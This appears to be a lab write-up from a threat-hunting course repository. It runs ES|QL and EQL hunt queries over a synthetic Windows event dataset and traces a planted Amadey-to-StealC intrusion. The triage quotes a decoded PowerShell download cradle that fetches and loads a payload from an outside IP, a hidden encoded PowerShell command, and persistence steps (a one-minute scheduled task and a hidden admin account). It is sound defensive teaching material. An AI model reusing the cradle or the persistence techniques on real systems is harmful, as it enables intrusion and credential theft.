

# 3. Hunt execution (PEAK: Execute)

> **Syllabus task 2:** *Execute hunt queries in Splunk or ELK.*

This runs the three hypotheses from [`02-hunt-plan.md`](02-hunt-plan.md) against the lab dataset. In the real Elastic lab the queries in [`queries/`](queries/) run in **Kibana** (Discover ES\|QL, Security Timelines EQL). Here they run against [`data/dataset.ndjson`](data/dataset.ndjson) via [`scripts/run_hunt.py`](scripts/run_hunt.py), which applies the **same logic** and self-checks the outcome.

**Dataset:** 976 ECS events, 5 Windows hosts, one business day (2026-10-01, 08:00–18:00). Event mix: 835 × 4688, 120 × 4104, 15 × 4698, 2 × 4720, 2 × 4732, 2 × 4946. One Amadey→StealC intrusion is planted on **WIN-FIN-07** (user `e.carter`); the rest is benign office noise plus three near-misses. (The planted chain and near-misses are built by [`scripts/gen_dataset.py`](scripts/gen_dataset.py); the reader does not know in advance which host is infected — that is what the hunt establishes.)


---

## H1 — script host → PowerShell → remote content

**Query (ES\|QL, candidates):**
```esql
FROM logs-system.security-*
| WHERE event.code == "4688" AND process.name == "powershell.exe"
    AND process.parent.name IN ("wscript.exe","cscript.exe","mshta.exe","wmic.exe","regsvr32.exe")
| KEEP @timestamp, host.name, user.name, process.parent.name, process.command_line
| SORT @timestamp ASC
```

**Result funnel**

| Stage | Count | Note |
|---|---|---|
| PowerShell executions in scope (4688) | **76** | the naive "look at all PowerShell" starting point |
| Download-cradle search in 4104/cmd **alone** | **27** | too noisy — includes admins' `Invoke-WebRequest`, internal downloads |
| Candidates: **parent is a script host** | **1** | the hypothesis-specific filter |
| **Confirmed** after triage | **1** | WIN-FIN-07 |

**The hit**

| @timestamp | host | parent | process.command_line |
|---|---|---|---|
| 2026-10-01 11:14:09Z | WIN-FIN-07 | **mshta.exe** | `powershell.exe -nop -w hidden -enc SQBFAFgA…` |

The paired 4104 script block for that PID decodes to a classic cradle:
`IEX (New-Object Net.WebClient).DownloadString('http://185.215.113.16/test/amnew.exe'); …Reflection.Assembly.Load(…)`.

**Triage proof:** the 27 naive cradle hits include the benign `Invoke-WebRequest http://10.10.0.5/artifacts/build.zip` on WIN-DEV-11 (internal IP, started by `explorer.exe`). It is **excluded** because its parent is not a script host — which is exactly why the hypothesis adds that condition. Specificity went from 27 → 1 with **zero** false negatives.

**EQL confirmation (the full chain, one host, ≤10 min):** `wscript.exe` → `mshta.exe http://…` → `powershell.exe` (child of mshta) returns the single sequence on WIN-FIN-07 at 11:14.

---

## H2 — hex-folder EXE + 1-minute scheduled task

**Query (ES\|QL):**
```esql
FROM logs-system.security-*
| WHERE event.code == "4688"
    AND process.executable RLIKE """(?i).*\\[a-f0-9]{10}\\[^\\]+\.exe"""
| KEEP @timestamp, host.name, user.name, process.executable, process.parent.name
| SORT @timestamp ASC
```

**Result**

| Indicator | Count | The hit |
|---|---|---|
| Hex-folder EXE (4688) | **1** | `C:\Users\e.carter\AppData\Local\Temp\067640a009\Yfgfwb.exe` (parent `amnew.exe`) |
| `schtasks /SC MINUTE /MO 1` (4688) | **1** | creates task `\Yfgfwb` pointing at that EXE |
| Every-minute task created, `PT1M` (4698) | **1** | `TaskName \Yfgfwb`, `TaskContent` contains `PT1M` |
| **Confirmed hosts** | **1** | WIN-FIN-07 |

All three indicators line up on one host within ~1 minute (11:15:02 → 11:15:06). 

**Triage proof:** the 15 benign scheduled tasks in the data (GoogleUpdate = daily, Office Automatic Updates = `PT1H`, UpdateOrchestrator) all point at `C:\Program Files*` / `System32` and use daily/hourly intervals — none match `PT1M` **and** a user-writable path. No false positives.

---

## H3 — new admin + firewall rule within 30 minutes

**Query (EQL):**
```eql
sequence by host.name with maxspan=30m
  [ any where (event.code == "4732" and winlog.event_data.TargetUserName == "Administrators")
           or (event.code == "4720" and winlog.event_data.TargetUserName like "*$") ]
  [ any where event.code == "4946" ]
```

**Result**

| Host | Account change | Firewall rule | Verdict |
|---|---|---|---|
| **WIN-FIN-07** | `sysupd$` created (4720, 11:19:32) + added to **Administrators** (4732, 11:19:34) | `Remote Desktop (TCP-In) svc` added (4946, 11:20:10) | **Confirmed — true positive** |
| WIN-DEV-11 | `jdoe` added to **Remote Desktop Users** (not Administrators) | — | triaged out (not a local admin; no firewall rule) |
| WIN-SALES-05 | — | `Zoom Video Call (TCP-In)` added by installer | triaged out (no account change nearby) |

The hidden-admin naming (`$` suffix) + addition to Administrators + an RDP firewall rule, all within ~40 seconds, is the Amadey v5 "enable remote access" behaviour. The two near-misses are correctly rejected: one is a normal RDP-user grant, the other a lone installer rule.

---

## Self-checks

`run_hunt.py` asserts the hunt behaved correctly (exit 0 = all pass):

```
[PASS] H1 finds WIN-FIN-07          [PASS] H2 confirms WIN-FIN-07 only
[PASS] H1 confirmed count == 1      [PASS] H3 confirms WIN-FIN-07
[PASS] H3 excludes RDP-Users near-miss
[PASS] H3 excludes lone firewall rule
```

## Reconstructed intrusion

Correlating the three confirmations rebuilds the whole intrusion on WIN-FIN-07 — and every event came from a log source the lab already collects:



H1 catches it at **11:14** (exploitation), H2 at **11:15** (installation), H3 at **11:19–11:20** (actions on objectives). A hunter starting from *any one* hypothesis would pivot to the whole chain. Catching it at H1 — the earliest — is what stops StealC before it runs.
